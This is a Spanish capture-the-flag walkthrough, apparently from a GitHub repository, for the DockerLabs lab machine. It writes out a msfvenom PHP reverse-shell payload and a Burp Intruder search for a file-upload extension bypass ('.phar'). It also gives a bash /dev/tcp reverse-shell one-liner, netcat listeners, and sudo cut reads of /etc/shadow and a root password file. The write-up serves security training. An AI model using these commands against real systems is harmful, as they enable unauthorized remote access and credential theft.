


# Dockerlabs

Maquinas a utilizar Kali Linux y la maquina dockerlabs en  [https://dockerlabs.es/](/https://dockerlabs.es/)

### ¿Cómo descargarla y Desplegar la maquina  dockerlabs?



La descargamos y descomprimimos dentro de nuestra kali. Abrimos un terminal y nos movemos a donde tengamos los archivos descomprimidos . En mi caso el escritorio y escribimos el siguiente comando para desplegarla.

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```


Encaso de que Docker no este instalado en el sistema nos lo descargara y lo instalara antes del despliegue de la maquina dockerlabs.


---

### **Reconocimiento**

- Hacemos un nmap sobre la maquina victima .
    
    ```bash
    sudo nmap -p- -sS -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
    ```
    
    
    

- Vemos que tiene abierto el puerto 80 . Vamos a ver que nos muestra dentro del navegador web.
    
    
    
    `CTRL+U`
    
    
    
    No parece que haya nada extraño a simple vista en el código.
    
- Hacemos **fuzzing web** con gobuster para encontrar ubicaciones dentro de la url**.** Utilizaremos los diccionarios de seclists
    - Para instalar los diccionarios de seclists en caso de no tenerlos.
        
        ```bash
        sudo apt update
        sudo apt install seclists
        ```
        
        
        
    
    ```bash
    gobuster dir -u "[http://172.17.0.2](./imagenes/http://172.17.0.2/)" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,bak,txt
    
    ```
    
    
    
- Miramos a donde nos llevan las URL sospechosas.
    
    http://172.17.0.2/uploads/ . Esta ubicación nos muestra donde se alojan los archivo que subamos al servidor.
    
    
    
    http://172.17.0.2/upload.php . No carga nada
    
    
    
    http://172.17.0.2/machine.php . Tenemos el Formulario de subida de archivos.
    
    
    

---

### **Análisis de vulnerabilidades y modelado de amenazas**

- Nuestro primer impulso seria crear un archivo malicioso y subirlo al servidor.
    - Miramos nuestra IP
        
        ```bash
        hostname -I
        ```
        
        
        
    
    - Creamos un archivo malicioso con msfvenom
        
        ```bash
        msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > bicho.php 
        ```
        
        
        
    
    - Lo subimos al servidor en http://172.17.0.2/machine.php
        
        
        
        
        
        
        
        Vemos que no es posible subirlo ya que el servidor tiene restricciones de tipos de archivo que se pueden subir.
        

---

### **Explotación**

- Activamos la configuración del navegador web para que funciones Burpsuite . y lanzamos BurpSuite.
    
    
    
    
    

- Activamos la intercepción y volvemos a intentar cargar el archivo malicioso.
    
    
    
    
    

- Pulsamos CTRL+R para cargar la petición en el repeater de BurpSuite.
    
    `CTRL+R`
    
    
    

- Nuestro objetivo es encontrar una extensión que pase el filtro pero que nos deje ejecutar nuestro archivo malicioso PHP.
    
    Para ello voy a utilizar un articulo de la web HackTricks donde hablan del tema.
    
    [https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html](./imagenes/https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)
    
    
    

- Voy a probar para encontrar en BurpSuite las posibles extensiones que me aconseja. Para automatizarlo el proceso usaremos la pestaña Intruder.
    - Seleccionamos toda la petición, pulsamos tecla derecha del ratón y pulsamos en “Send to Intruder”. O también pulsando `CTRL+I`
        
        
        
    - Pulsamos el botón “Clear $” para limpiar la petición. Escogemos lo que queremos modificar y que se vaya sustituyendo, en nuestro caso la extensión del archivo y pulsamos el botón “Add $”.
        
        
        
        Quedando de esta manera:
        
        
        
    - Nos situamos en “Payload configuration” el menú de la parte derecha de la pantalla y vamos añadiendo extensiones a la lista utilizando la tecla “Add”.
        
        
        
    - Una vez tengamos las extensiones metidas pulsamos en “Start attack”
        
        
        
    - En la ventana que se nos abre pulsamos a la pestaña “Response” y miramos una a una las respuestas del servidor para ver si alguna de ellas es positiva.
        
        
        
        Vemos que extensión “phar” esta permitida.
        
- Desactivamos la intercepción y miramos si nos a subido el archivo http://172.17.0.2/uploads/
    
    
    
- Abrimos una terminal y nos ponemos a la escucha con netcat en el puerto que habíamos puesto en nuestro archivo malicioso.
    
    ```bash
    sudo nc -nlvp 443
    ```
    
    
    

- Como  las conexiones con netcat y msfvenom no duran mucho tiempo tenemos que estabilizarla.
    - En otra terminal nos ponemos a la escucha en otro puerto , por ejemplo en el 444
    - Usaremos la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/) ****para crear la revershell. Poniendo los datos necesarios. En este caso nuestra IP y un nuevo puerto
        
        
        
    
    - Creamos una nueva conexión con netcat en el puerto 444 en una nueva terminal.
        
        ```bash
        sudo nc -nlvp 444
        ```
        
        
        
    
    - Ejecutamos nuestro archivo malicioso y vemos como  se establece conexión en la escucha en el puerto 443 y escribimos lo siguiente en el aprovechando lo que hemos obtenido del a web  https://www.revshells.com/ ****
        
        `bash -c "**sh** -i >& /dev/tcp/**172.17.0.1**/**444** 0>&1"`
        
        
        
    
    - Consiguiendo una conexión estable en la escucha 444.
        
        
        

---

- Hacemos un Tratamiento de la TTY para movernos mas cómodamente
    - Escribimos el siguiente comando  y veremos que adquirimos un prompt.
        
        `script /dev/null -c bash`
        
        
        
    - Hacemos un **`CTRL+Z`**
        
        
        
    - Escribimos a continuación.
        
        `stty raw -echo; fg`
        
        
        
    - Escribimos `reset xterm` . Es posible que no se muestre cuando lo escribimos pero aun así lo escribimos y pulsamos Enter. Y nos aparecerá la siguiente pantalla.
        
        
        
        
        
    - Por ultimo tenemos que exportar 2 variables. escribimos lo siguiente.
        
        `export TERM=xterm`
        
        `export SHELL=bash`
        
        
        
        Con esto  ya nos aceptaría los comandos que antes no lo hacia.
        

---

## Escalada de privilegios

- Vamos a ver si podemos escalar privilegios con sudo.
    
    `sudo -l`
    
    
    
    - Nos vamos a la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) y buscamos información de cut y grep para la escalada de privilegios con sudo.
        
        
        
        
        
    - En este caso voy a utilizar cut para ver la información de archivo **/etc/shadow**
        
        `sudo cut -d ":" -f1,2 /etc/shadow`
        
        
        
        Nos muestra los hash de los usuarios root y dbadmin.
        
        Por aquí no puedo avanzar ya que si los analizamos veremos que son hash  creados con el algoritmo **yescrypt** que no esta soportado por John the Ripper.
        
- Investigando vemos que en la carpeta /opt hay un archivo llamado nota.txt con una pista
    
    
    

- Aprovechamos la vulnerabilidad cut para leer el archivo clave.txt que nos menciona
    
    `sudo cut -d ":" -f1 /root/clave.txt` 
    
    
    
    `su root`
    
    
    

Ya somos root